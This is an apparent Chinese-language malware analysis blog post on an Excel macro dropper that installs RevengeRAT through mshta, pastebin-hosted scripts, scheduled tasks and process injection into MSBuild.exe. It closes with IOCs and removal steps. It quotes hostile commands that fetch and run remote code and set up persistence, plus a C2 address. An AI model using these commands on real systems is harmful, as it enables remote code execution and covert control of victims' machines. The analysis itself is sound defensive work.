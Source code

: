 ﻿---
title: Lunlayloo 木马
date: 2019-09-06 19:11:22
index_img: https://dc.snscz.com/s2/img/original/2019/04/01/14/14004_b10b643428.jpg
banner_img: https://dc.snscz.com/s2/img/original/2019/04/01/14/14004_b10b643428.jpg
tags:
    - Rat H-worm
categories: 样本详细分析
---


## 基本信息
|FileName| FileType|MD5|Size|
|--|--|--|--|
| Order____679873892.xls| rat  |7641FEF8ABC7CB24B66655D11EF3DAF2|41472 bytes|


## 简介
该样本语言类型为 VBS和JS编写，中间过程完全使用无文件格式，内容也都能随时在线更改，在一定程序上能躲避安全软件的查杀，通过不同混淆更容易达到免杀的效果。

## 流程图
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920124614242.png)

## 详细分析

文件有宏，且宏有密码，可以使用`offkey`直接更改宏密码
进入宏代码后在`shell(fun)`处下断，可以拿到shell 的连接地址
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190916212336956.png) `mshta http://bit.ly/8hsshjahassahsh`

打开这个页面看似是一个正常页面，但仔细查找是能在源码中找到恶意js代码的
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917141638561.png)
拿出来使用`console`打印出来
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917141856253.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917143320931.png)
处理后执行了`WScript.Shell.Run mshta http://www.pastebin.com/raw/nv5d9pYu,vbHide`
看看究竟是什么东西
木马作者选择了一个匿名代码存放地址网站，来逃避追踪。
但是目前这个RWA地址页面已经被删除了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917143741625.png)
这个样本在any.run上有人运行过，有记录，所以可以找到这个访问记录。
https://app.any.run/tasks/0100486e-1711-4af6-a437-74ad27216f36/
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917144032656.png)
拿出这个代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917144558325.png)
下面看看怎么玩的，关闭打开的excel word ppt msp软件，让中马的人以为想不到是宏的原因，给人 眼部见为净 的感觉

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917151722331.png)

接着又安装两个计划任务，来持久化攻击和进一步执行操作

`schtasks /create /sc MINUTE /mo 60 /tn Windows Update /tr mshta.exe http://pastebin.com/raw/vXpe74L2 /F`![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917154541622.png)
`schtasks /create /sc MINUTE /mo 300 /tn Update /tr mshta.exe http://pastebin.com/raw/JdTuFmc5 /F`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190917154555627.png)
通过schtasks  创建两个计划任务来执行两个脚本文件
还加入了一个开启自启动
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019091715561730.png)

接下来看看这三个脚本是怎么操作的

`JdTuFmc5` 又是一系列加密，下面是解密后的结果

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190919105945345.png)
尝试去下载并执行两个.net编写的可执行程序，暂时命名为`bit1.bin`和`2bit1.bin`后面分析

在`wMG90xwi`这个raw中定义了一个`$a`对象，这个对象是将上面的bit1.bin读入内存的对象，可以直接使用
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190919105430408.png)
使用dnspy打开反编译这个dll

里面就有`THC452563sdfdsdfgr4777cxg04477fsdf810df777`类和它的方法`retrt477fdg145fd4g0wewerwedsa799221dsad4154qwe(string FTONJ, byte[] coco)` 

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190919110436546.png)
然后使用`Invoke`去调用了这个方法，且传入的参数是('MSBuild.exe',$f)

查一下壳，发现是加了`Confuser`的混淆

解完混淆之后再看
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920183121543.png)
会按照顺序去检测文件`MSBuild.exe`存在在哪，然后调用`ticklens`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920183342286.png)
`PEHeaderE`函数是在修改程序自身代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920184816602.png)主要看`FUN`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920184846835.png)
发现是在循环调用`smethod_0`方法，这个方法就是真正的创建傀儡进程

`lpname` 指向要打开的进程

`lpBuf` 是要注入的数据

![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920185315420.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019092018553021.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920185552483.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920185722874.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920185657512.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920185749272.png)
上面就是典型的进程注入  作用是将第二个可执行程序注入到`MSBuild.exe`中

这里就直接看一下 这个注入的程序到底是什么

反编译下一个2bit2.bin

根据关键字搜索，可以发现这是`RevengeRAT `远控生成的客户端
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190920111854823.png)
这个远控是一个有免费版本，网络上也有泄露的版本，因为是.net编写，基本功能也都能识别出来

首先是C2地址 `meandmyjoggar.duckdns.org:777`

程序互斥体名 `RV_MUTEX-WindowsUpdateSysten32`

两个计划任务和加入的启动项注册表都是一样的程序，这里就不累述了

**总的来说就是将远控代码注入到一个正常的程序中，来达到执行且躲避安全软件**



## IOC
| 域名| 类型 |
|--|--|
|http://www.pastebin.com/raw/nv5d9pYu| C&C|
|http://pastebin.com/raw/vXpe74L2| C&C|
|http://pastebin.com/raw/JdTuFmc5| C&C|
|http://pastebin.com/raw/CGe3S2Vf| C&C|
|https://pastebin.com/raw/wMG90xwi| C&C|
|https://pastebin.com/raw/W455MkAZ| C&C|
|meandmyjoggar.duckdns.org:777 | C&C|


## 查杀方案
关闭`MSBuild.exe`进程
删除计划任务名为`Windows Update`和`Update`的任务
删除`HKCU\Software\Microsoft\Windows\CurrentVersion\Run\AvastUpdate`表项
删除`Order____679873892.xls`

## 总结
感染链复杂，控制解密繁琐，多方面控制持久化操作，无文件攻击，技术含量高。个人以及企业中需要时刻面对各种威胁，要时刻保持警惕，防患于未然。
